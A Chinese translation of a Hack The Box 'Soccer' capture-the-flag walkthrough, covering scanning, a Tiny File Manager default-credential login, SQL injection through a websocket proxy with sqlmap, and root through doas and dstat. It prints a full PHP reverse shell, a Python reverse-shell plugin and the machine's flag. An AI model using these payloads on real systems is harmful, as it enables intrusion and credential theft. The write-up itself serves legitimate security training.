# 足球—黑盒子|用旗子写文章| 2023

> 原文：<https://infosecwriteups.com/soccer-hack-the-box-writeup-with-flag-2023-de695a0e54ec?source=collection_archive---------0----------------------->

## 《黑盒子——足球机器》Karthikeyan Nagaraj 的简单报道

[](https://app.hackthebox.com/machines/Soccer)

# 阶段…

1.  扫描
2.  列举
3.  权限提升

> **确保连接 HTB Vpn**

## 1.扫描

首先执行 nmap 扫描
`nmap -sC -sV <Machine-IP>`

```
┌──(cyberw1ng㉿root)-[~]
└─$ nmap -sC -sV 10.10.11.194
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-31 22:45 IST
Nmap scan report for 10.10.11.194 (10.10.11.194)
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 31 Dec 2022 17:16:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 31 Dec 2022 17:16:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|     </html>
|   RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 31 Dec 2022 17:16:23 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=12/31%Time=63B06E60%P=x86_64-pc-linux-gnu%r(i
SF:nformix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\
SF:r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r
SF:\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nC
SF:ontent-Length:\x20139\r\nDate:\x20Sat,\x2031\x20Dec\x202022\x2017:16:22
SF:\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lan
SF:g=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n<
SF:/head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(H
SF:TTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Po
SF:licy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143
SF:\r\nDate:\x20Sat,\x2031\x20Dec\x202022\x2017:16:22\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<m
SF:eta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>
SF:Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"H
SF:TTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-
SF:src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x2
SF:0text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Sat,
SF:\x2031\x20Dec\x202022\x2017:16:23\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"
SF:utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS
SF:\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnec
SF:tion:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

枚举的最佳方式是检查任何易受攻击的端点
端口和服务运行如下所述，

```
Open Ports | Service Running
-----------|-----------------
22         | ssh
80         | http
9091       | xmltec-xmlmail
```

## **2。枚举**

我们先来看看`http`



1.  在打开 IP 时，它被重定向到`soccer.htb`，因为它看起来像一个私人网站，所以让我们将该域添加到`/etc/hosts`

```
sudo echo 10.10.11.194 soccer.htb >> /etc/hosts
```

2.在某些情况下`sudo`不起作用，此时在运行命令前使用`su`

```
su
echo 10.10.11.194 soccer.htb >> /etc/hosts
```



现在让我们打开网站 [soccer.htb](http://soccer.htb/)



3.看起来这个页面没有可用的信息，甚至在源代码中也没有: (

4.让我们列举目录！！对于简短的 web 内容枚举，我将使用下面的单词表

```
/usr/share/seclists/Discovery/Web-Content/SVNDigger/all-dirs.txt
```



有时 dirb 会变慢，所以你可以使用 gobuster 作为替代



5.从分析中，我们发现了一个目录`/tiny`

```
http://soccer.htb/tiny/
```



6.注意图像的底部→ [CCP 程序员](https://tinyfilemanager.github.io/)

[](https://github.com/prasathmani/tinyfilemanager) [## GitHub-prasathmani/tinyfilemanager:单文件 PHP 文件管理器，浏览和管理你的文件…

### TinyFileManager 是一个基于 web 的 PHP 文件管理器，它是一个简单、快速、体积小的单文件 PHP 文件，可以…

github.com](https://github.com/prasathmani/tinyfilemanager) 

7.该页面由 Tiny File Manager 开发，它使用 GitHub 文档中提到的 **2 个默认凭证**。尝试使用这些凭证登录。

```
username: admin
password: admin@123

username: user
password: 12345
```

我们以管理员身份登录: )



8.有一个“文件上传”功能，我们可以用它来获得一个`Reverse shell`

9.我用下面的[反壳](https://github.com/Cyberw1ng/Bug-Bounty/blob/main/rev_shell.php)

```
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.42';  // CHANGE THIS
$port = 2929;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {

 $pid = pcntl_fork();

 if ($pid == -1) {
  printit("ERROR: Can't fork");
  exit(1);
 }

 if ($pid) {
  exit(0);  
 }

 if (posix_setsid() == -1) {
  printit("Error: Can't setsid()");
  exit(1);
 }

 $daemon = 1;
} else {
 printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
 printit("$errstr ($errno)");
 exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
 printit("ERROR: Can't spawn shell");
 exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {

 if (feof($sock)) {
  printit("ERROR: Shell connection terminated");
  break;
 }

 if (feof($pipes[1])) {
  printit("ERROR: Shell process terminated");
  break;
 }

 $read_a = array($sock, $pipes[1], $pipes[2]);
 $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

 if (in_array($sock, $read_a)) {
  if ($debug) printit("SOCK READ");
  $input = fread($sock, $chunk_size);
  if ($debug) printit("SOCK: $input");
  fwrite($pipes[0], $input);
 }

 if (in_array($pipes[1], $read_a)) {
  if ($debug) printit("STDOUT READ");
  $input = fread($pipes[1], $chunk_size);
  if ($debug) printit("STDOUT: $input");
  fwrite($sock, $input);
 }

 if (in_array($pipes[2], $read_a)) {
  if ($debug) printit("STDERR READ");
  $input = fread($pipes[2], $chunk_size);
  if ($debug) printit("STDERR: $input");
  fwrite($sock, $input);
 }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
 if (!$daemon) {
  print "$string\n";
 }
}

?>
```

10.确保更改`IP Address`并将其命名为`.php`



11.然后，上传文件



文件上传到/tiny/uploads/目录中

12.在运行反向 shell 之前，使用下面的命令启动监听器(rev_shell 中使用的端口应该在这里用来获得反向连接)

```
nc -nvlp 2929
```



现在键入反向 shell 的 URL，以获得如下所示的反向连接

```
http://soccer.htb/tiny/uploads/<your-shell-name>
```



13.我们得到了反向连接！！

现在使用下面的命令来获取 bash

```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```



在主目录中找不到任何内容

14.在`/etc/nginx/sites-enabled`上，我们发现了一个子域



15.因此，让我们将`soc-player.soccer.htb`添加到我们的/etc/hosts 中，然后[在浏览器](http://soc-player.soccer.htb/)中打开它

[http://soc-player.soccer.htb/](http://soc-player.soccer.htb/)

```
su
echo <htb_machine_ip> soc-player.soccer.htb >> /etc/hosts
```



16.有一些选项，如`Match, Login`和`Signup`选项可用

[](http://soc-player.soccer.htb/match)

让我们注册并登录



注册和登录后

17.在查看源代码时，我们知道这个字段是连接到 Web 套接字的



18.我们可以使用下面的 python 代码将请求从 sqlmap 定向到我们的本地主机

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
 data = '{"id":"%s"}' % message

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
   except IndexError:
    payload = False

   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

19.首先，运行 python 脚本，然后运行 sqlmap 命令

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```



20.我们有一些证书

```
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```

21.让我们使用这些凭证通过 ssh 登录



## **3。权限提升**

1.  使用 linpeas 并执行枚举(如果需要添加注释，我会简短地发布)

```
[+] Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```



2.用下面的代码在`/usr/local/share/dstat/`中创建一个名为`dstat_cyberw1ng.py`的 python 插件

```
/usr/local/share/dstat/ && nano dstat_cyberw1ng.py
```

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((“<your-IP>”,2929));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty; pty.spawn(“/bin/sh”)
```

3.确保在执行之前设置一个监听器

```
nc -nvlp 2929
```

4.执行以下命令并导航至`/root && cat root.txt`

```
doas -u root /usr/bin/dstat --cyberw1ng
```



```
Flag: 6314c94f697b6d45e83003814fd187c2
```

请随时通过 LinkedIn[提出问题，并为我买一杯咖啡: )](https://www.linkedin.com/in/karthikeyan-nagaraj)

[](https://www.buymeacoffee.com/cyberw1ng)

感谢您的阅读！！

黑客快乐~

```
Author: Karthikeyan Nagaraj ~ Cyberw1ng
```